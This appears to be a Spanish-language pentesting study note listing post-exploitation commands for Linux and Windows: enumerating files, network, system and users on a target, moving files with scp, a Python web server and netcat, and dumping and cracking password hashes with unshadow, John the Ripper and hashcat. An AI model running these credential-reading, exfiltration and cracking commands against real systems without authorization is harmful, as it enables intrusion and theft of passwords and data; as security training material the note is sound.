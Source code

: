 # Compilar información de archivos en el destino

## Descripción
Recopilamos información sobre los archivos del sistema objetivo, como nombres, tamaños, permisos y fechas de modificación.

## Herramientas
Para recopilar información sobre un directorio, podemos hacerlo gracias a los comandos que tenemos en el sistema.

Linux:
`find /directorio/a/enumerar -type f -exec ls -l {} \;`

Windows:
`dir /s /p /q`
`tree /f`

# Enumerar información de red de archivos en el destino

## Descripción 
Recopilar detalles sobre la configuración de red del objetivo, como las interfaces, ip, rutas y firewall.

## Herramientas

Linux:
Para reconocer la red en linux, tenemos los distintos comandos.
`ip a`
`ip route`
`route -n`
`iptables -L`

Windows:
`ipconfig /all`
`route print`
`netstat -r`
`netstat -nabo`
`netsh firewall show state`

# Enumerar la información del sistema en el objetivo

## Descripción
Para enumerar la información del sistema, necesitaremos sacar la versión del sistema operativo, parches instalados, servicios en ejecución y hardware


## Herramientas

Linux:
`uname -a`
`lsb_release -a`
`ps aux`
`df -h`

Windows:
`systeminfo`
`tasklist`
`wmic qfe get Caption,Description,HotFixID,InstalledOn`

Info discos:
``wmic diskdrive get Caption, DeviceID, Size, MediaType
wmic logicaldisk get Name, Size, FreeSpace``


# Recopilar información de la cuenta de usuario en el objetivo

## Descripción
Obtener información sobre las cuentas de usuario en el sistema, incluyendo nombres de usuario, grupos y permisos

## Herramientas

Linux:
`cat /etc/passwd`
`cat /etc/group`
`id usuario`

Windows:
`net user`
`net group`


# Transferir archivos hacia y desde el destino
## Descripción
Transferir archivos hacia y desde el objetivo, puede ser útil para obtener herramientas en el objetivo y también para extraer datos.

## Herramientas
SSH:
`scp archivoPasar usuario@remoteip:/ruta/de/destino`
`scp usuario@remoteip:/ruta/del/archivo archivoCoger`

Python:
Con python podemos hacer un servidor web muy facilmente.
`python3 -m http.server 80`

Esto empezará un servidor web en el puerto 80, en el directorio que hayamos ejecutado el comando. Lo que nos permitirá coger cosas del servidor con un wget.
`wget ipPythonServer/archivo`

Netcat:

Emisor:
`nc remoteIP PORT < archivo`

Receptor:
`nc -nvlp PORT > archivo`

Esto transferirá el archivo. 

# Recopilar información de hash/contraseña del objetivo

## Descripción

Extraer hashes de contraseñas , tanto de base de datos como en scripts... E intentar crackearlas. También puede ser que encontremos alguna contraseña en texto plano.

## Herramientas
John the ripper:
Con esta herramienta podemos hacer ataques de fuerza bruta a hashes de contraseña.

Practica de ejemplo:
`unshadow /etc/passwd /etc/shadow > password.txt`
`john --wordlist=/path/to/dictionary password.txt`
`john --wordlist=/home/kali/contraas.txt  hash.txt --format=crypt ` "--format=crypt(sirve para yescrypt que es el hash de la pass de linux)"
`john --show password.txt`


Con john podemos adaptarnos a diferentes formatos de hash y tipos de archivos protegidos por contraseña. Existen unas herramientas que convierten estos archivos o hashes a un formato legible para john the ripper. Estas herramientas son programas conocidos como 2john. Ej:
zip2john -- rar2john -- pdf2john -- keepass2john...

Hashcat

Con esta herramienta también podemos hacer ataques de fuerza bruta a contraseñas.

Ejemplos de uso:

`hashcat -m 0 -a 0 hash.txt rockyou.txt`

Con -m especificamos el tipo de hash (MD5 en este caso)
-a especifica el modo de ataque (ataque de diccionario)
Primero se pone el archivo donde tenemos el hash a crackear y luego ponemos el diccionario 

![[Pasted image 20240726123331.png]]
Para saber el tipo de hash que es, podemos utilizar la herramienta de hash-identifier
